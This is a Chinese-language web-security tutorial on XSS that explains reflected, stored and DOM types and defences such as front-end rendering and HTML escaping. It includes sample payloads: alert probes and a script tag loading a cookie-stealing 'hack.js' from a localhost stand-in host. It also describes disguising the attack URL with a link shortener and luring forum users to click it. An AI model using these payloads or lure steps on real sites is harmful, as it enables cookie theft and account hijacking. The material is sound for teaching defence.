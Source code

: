 ```yaml
---
title: 常见web攻击
tags: []
categories: [web安全]
date: 2022-02-08 09:34:35
---
```


## 1. XSS

XSS，全称Cross-Site Scripting，跨站脚本攻击，是一种代码注入攻击。攻击者通过在目标网站上注入恶意脚本，使之在用户的浏览器上运行。利用这些恶意脚本，攻击者可以获得用户的敏感信息，如：cookie等，进而危害数据安全。

XSS攻击的本质是：恶意代码未经过滤，与网站正常的代码混在一起；浏览器无法分辨哪些脚本是可信的，导致恶意脚本被执行。

XSS攻击可能造成的危害：

- 获取网站的数据
- 获取Cookie
- 劫持前端逻辑
- 发送虚假请求
- 偷取用户的资料
- 偷取用户的秘密和登录态

### XSS攻击分类

根据攻击的来源，XSS 攻击可分为存储型、反射型和 DOM 型三种。

|类型|存储区|插入点|
|-|-|-|
|反射型XSS|URL|HTML|
|存储型XSS|后端数据库|HTML|
|DOM型XSS|后端数据库/前端存储/URL|前端JavaScript|

- 反射型XSS（url参数直接注入）

实现攻击步骤：

1. alert尝试（看该网站是否有xss漏洞）
2. 构造攻击url
3. 短域名伪造（通过短域名生成网站把上面构造的xss攻击url转换成看似正常的url）
4. 把构造好的url放到贴吧、论坛或微博等网站，加上诱惑性的语言描述，吸引用户点击（这一步很关键，因为只有用户点击了该url链接，才可能造成攻击）
5. 用户打开带有恶意代码的 URL 时，网站服务端将恶意代码从 URL 中取出，拼接在 HTML 中返回给浏览器。
6. 用户浏览器接收到响应后解析执行，混在其中的恶意代码也被执行。

反射型 XSS 漏洞常见于通过 URL 传递参数的功能，如网站搜索、跳转等。

由于需要用户主动打开恶意的 URL 才能生效，攻击者往往会结合多种手段诱导用户点击。

例如：

```js
// 正常url
http://localhost:3000/?from=china

// 1. alert尝试
http://localhost:3000/?from=<script>alert(3)</script>

// 2. 构造攻击url：hack.js实现获取Cookie
http://localhost:3000/?from=<script src="http://localhost:4000/hack.js"></script>

// 3. 短域名伪造：通过百度短网址网站（https://dwz.cn/）缩短url 
// 4. 把构造好的url放到贴吧
// 5. 用户打开带有恶意代码的 URL
// 后续步骤...
```

- 存储型xss - 存储到数据库后读取时攻击

实现攻击步骤：

1. alert尝试（看该网站是否有xss漏洞）
2. 构造攻击脚本
3. 把攻击脚本注入网站数据库
4. 用户打开目标网站时，网站服务端将恶意代码从数据库取出，拼接在 HTML 中返回给浏览器。
5. 用户浏览器接收到响应后解析执行，混在其中的恶意代码也被执行。

这种攻击常见于带有用户保存数据的网站功能，如论坛发帖、商品评论、用户私信等。

**反射型 XSS 跟存储型 XSS 的区别是：**存储型 XSS 的恶意代码存在数据库里，反射型 XSS 的恶意代码存在 URL 里。

例如：

```js

// 1. alert尝试
// 在有评论功能的网站发送如下评论，如果能弹出alert提示说明存在漏洞
<script>alert(1)</script>

// 2. 构造攻击脚本：hack.js实现获取Cookie
我来了<script src="http://localhost:4000/hack.js"></script>

// 3. 把攻击脚本注入网站数据库：通过发评论实现
// 4. 用户访问该网页
// 后续步骤...
```

- DOM 型 XSS

实现攻击步骤：

- 攻击者构造出特殊的 URL，其中包含恶意代码。
- 用户打开带有恶意代码的 URL。
- 用户浏览器接收到响应后解析执行，前端 JavaScript 取出 URL 中的恶意代码并执行。
- 恶意代码窃取用户数据并发送到攻击者的网站，或者冒充用户的行为，调用目标网站接口执行攻击者指定的操作。

**DOM 型 XSS 跟前两种 XSS 的区别**：DOM 型 XSS 攻击中，取出和执行恶意代码由浏览器端完成，属于前端 JavaScript 自身的安全漏洞，而其他两种 XSS 都属于服务端的安全漏洞。

### XSS攻击防范

#### 预防存储型和反射型 XSS 攻击

存储型和反射型 XSS 都是在服务端取出恶意代码后，插入到响应 HTML 里的，攻击者刻意编写的“数据”被内嵌到“代码”中，被浏览器所执行。

预防这两种漏洞，有两种常见做法：

- 改成纯前端渲染，把代码和数据分隔开。
- 对 HTML 做充分转义。

##### 纯前端渲染

纯前端渲染的过程：

浏览器先加载一个静态 HTML，此 HTML 中不包含任何跟业务相关的数据。
然后浏览器执行 HTML 中的 JavaScript。
JavaScript 通过 Ajax 加载业务数据，调用 DOM API 更新到页面上。
在纯前端渲染中，我们会明确的告诉浏览器：下面要设置的内容是文本（.innerText），还是属性（.setAttribute），还是样式（.style）等等。浏览器不会被轻易的被欺骗，执行预期外的代码了。

但纯前端渲染还需注意避免 DOM 型 XSS 漏洞（例如 onload 事件和 href 中的 javascript:xxx 等，请参考下文”预防 DOM 型 XSS 攻击“部分）。

在很多内部、管理系统中，采用纯前端渲染是非常合适的。但对于性能要求高，或有 SEO 需求的页面，我们仍然要面对拼接 HTML 的问题。

##### HTML 转义

如果拼接 HTML 是必要的，就需要采用合适的转义库，对 HTML 模板各处插入点进行充分的转义。

|XSS 安全漏洞|简单转义是否有防护作用|
|-|-|
|HTML 标签文字内容|有|
|HTML 属性值|有|
|CSS 内联样式|无| |内联 JavaScript|无|
|内联 JSON|无|
|跳转链接|无|

- 通过设置响应标头实现xss过滤（可以拦截xss脚本，但伪装一下就拦截不了了）

例如koa框架：

```js
ctx.set('X-XSS-Protection', 0) //0 关闭XSS过滤，1 启用xss过滤（浏览器默认值）
// http://localhost:3000/?from=<script>alert(3)</script> 可以拦截 但伪装一下就不行了
```
